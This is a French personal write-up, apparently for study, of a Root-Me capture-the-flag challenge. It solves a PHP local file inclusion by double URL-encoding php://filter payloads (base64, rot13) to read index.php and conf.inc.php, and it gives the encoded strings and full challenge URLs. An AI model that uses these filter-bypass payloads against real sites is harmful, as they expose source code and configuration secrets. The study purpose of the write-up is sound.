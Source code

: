 ```yaml
---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
lien:
---
```

# But

RÃ©ussir a faire un lfi, mais les char url encodÃ© sont flagguÃ© et il faut donc les encodÃ© 2 fois


# Fourni

un site 

![[Pasted image 20241203125114.png]]

![[Pasted image 20241203125131.png]]



je vais faire un petit tableau pour faire mes doubles encodage facilement

| original | url-encode | double encode |
| -------- | ---------- | ------------- |
| /        | %2F        | %252F         |
| .        | %2E        | %252E         |
| :        | %3A        | %253A         |
| =        | %3D        | %253D         |
| â€“        | %96        | %2596         |

chaine que je veux double encoder pour faire un test : 

php%253A%252F%252Ffilter%252Fread%253Dconvert%252Ebase64%E2%80%93encode%252Fresource%253Dindex%252Ephp

php://filter/read=convert.base64-encode/resource=index.php




la j'ai un rÃ©sultat :


http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fread%253Dconvert%252Ebase64%E2%80%93encode%252Fresource%253Dhome

essayer de le faire avec un autre filtre ? ou un autre fichier ?
http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php://filter/read=convert.base64-encode/resource=index.php

http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fread%253Dconvert%252Ebase64%E2%80%93encode%252Fresource%253Dhome


```
php://filter/string.rot13/resource=home
```

php%253A%252F%252Ffilter%252Fstring%252Erot13%252Fresource%253Dhome

string.rot13
string.toupper
string.tolower


parce que je voyais que les base 64 ne fonctionnaient pas, j'ai voulu faire du rot13 et du to upper, je tombe sur cela : 

![[Pasted image 20241203141228.png]]

je vois donc qu'un fichier conf.inc.php  existe

je peux faire la meme chose avec un autre filtre, rot13 et essayer d'afficher conf (to upper ne fonctionnait pas trop...)

![[Pasted image 20241203141827.png]]


![[Pasted image 20241203141837.png]]

Il ne faut pas forcement tester que "convert.base-64" mais aussi les autres.